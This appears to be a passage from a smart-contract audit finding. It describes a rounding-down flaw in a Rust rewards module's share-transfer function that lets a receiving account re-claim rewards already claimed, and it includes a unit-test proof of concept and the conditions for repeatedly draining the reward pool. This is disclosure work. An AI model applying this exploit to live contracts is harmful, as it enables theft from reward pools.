 ```rust
let move_balance = U256::from(balance.to_owned().saturated_into::<u128>())
    * U256::from(move_share.to_owned().saturated_into::<u128>())
    / U256::from(share.to_owned().saturated_into::<u128>());
```

Here we see the calculation is simple and by default is rounded down. So if `balance*move_share` is lower than `share`, `move_balance` evaluates to 0. So the receiving account's reward debt is not increased at all!

```rust
increased_rewards
    .entry(*reward_currency)
    .and_modify(|increased_reward| {
        *increased_reward = increased_reward.saturating_add(move_balance);
```

Since `move_balance` is `0`, the `increased_reward` is not updated. This means the new account now has shares, but no reward debt. So the receiving account can claim rewards that were already claimed.

This can be done multiple times to drain the reward pool.

The criteria is that `balance*move_share` has to be lower than `share`. This can be achieved by sending a small fraction of the funds to the receiving account, such that `move_share` is much lower than `share`. Also, if `balance`, the reward debt of the sender is low, this facilitates the attack more.

### Proof of Concept

A short POC is shown here demonstrating the issue. The attacker sends to the receiver a small share of their total. The receiver is shown to have no reward debt, while the sender does have reward debt. This shows that the receiver can claim rewards already claimed by the sender.

```rust
#[test]
fn test_rounding() {
ExtBuilder::default().build().execute_with(|| {
    RewardsModule::add_share(&ALICE, &DOT_POOL, 1000);
    assert_ok!(RewardsModule::accumulate_reward(&DOT_POOL, NATIVE_COIN, 100));
    // RewardsModule::add_share(&BOB, &DOT_POOL, 100);
    RewardsModule::claim_rewards(&ALICE, &DOT_POOL);

    let user_stat = RewardsModule::shares_and_withdrawn_rewards(DOT_POOL, ALICE);
    println!("ALICE stat before transfer: {:?}", user_stat);
    let user_stat = RewardsModule::shares_and_withdrawn_rewards(DOT_POOL, BOB);
    println!("BOB stat before transfer: {:?}", user_stat);

    assert_ok!(RewardsModule::transfer_share_and_rewards(&ALICE, &DOT_POOL, 5, &BOB));

    let user_stat = RewardsModule::shares_and_withdrawn_rewards(DOT_POOL, ALICE);
    println!("ALICE stat after transfer: {:?}", user_stat);
    let user_stat = RewardsModule::shares_and_withdrawn_rewards(DOT_POOL, BOB);
    println!("BOB stat after transfer: {:?}", user_stat);
});
}
```
